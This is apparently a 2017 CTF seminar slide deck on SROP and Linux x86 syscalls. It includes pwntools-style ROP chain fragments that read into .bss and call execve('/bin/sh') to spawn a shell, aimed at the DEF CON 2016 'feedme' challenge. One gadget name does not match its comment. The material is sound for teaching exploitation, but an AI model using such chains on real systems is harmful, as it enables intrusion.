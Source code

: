 footer: © 2O2L2H Book/Seminar, 2017
slidenumbers: true

# [fit] SROP 

### June 8, 2017   2O2L2H/humb1ec0ding

```
/awesome-ctf-wargame/seminar/topic/srop
```

---
# [fit] Linux System Calls

![left fit](./fig/linux-system-call.png)

- `int 80`
- system call number

---
# [fit] [Assembly System Calls](https://www.tutorialspoint.com/assembly_programming/assembly_system_calls.htm)

![left fit](./fig/srop-arg.png)

- `eax` : system call number
- `ebx` : file descriptor - `stdin/out/err`
- `ecx` : buffer
- `edx` : siz


---
# system call : assembly

```
mov eax,1   ; system call number (sys_exit)
int 0x80    ; call kernel

mov edx,4   ; message length
mov ecx,msg ; message to write
mov ebx,1   ; file descriptor (stdout)
mov eax,4   ; system call number (sys_write)
int 0x80    ; call kernel
```

---
# [fit] gadget for system call

```
pop reg, ret
int 0x80, ret
```

```
# read(0, e.bss(), 0x8)
ex += p32(pop_eax)              # pop eax
ex += p32(0x3)                  # number of systemcall sys_read
ex += p32(pop_edx_edx_ebx_ret)  # pop edx/ecx/ebx
ex += p32(0x8)                  # size of stdin
ex += p32(elf.bss())            # buf for stdin
ex += p32(0)                    # fd of stdin
ex += p32(int0x80)              # invoke system calls in Linux on x86
```

---

```
# execve("/bin/sh",NULL, NULL)
ex += p32(pop_eax)              # pop eax
ex += p32(0xb)                  # number of systemcall sys_execve
ex += p32(pop_edx_edx_ebx_ret)  # pop edx/ecx/ebx
ex += p32(0)                    # third argument of execve : NULL
ex += p32(0)                    # second argument of execve : NULL
ex += p32(elf.bss())            # first argument of execve : buf
ex += p32(int0x80)              # invoke system calls
```

---
# [fit] Defcon 2016 feedme

- Canary : fork child, bruteforce
- SROP : static linked, stripped



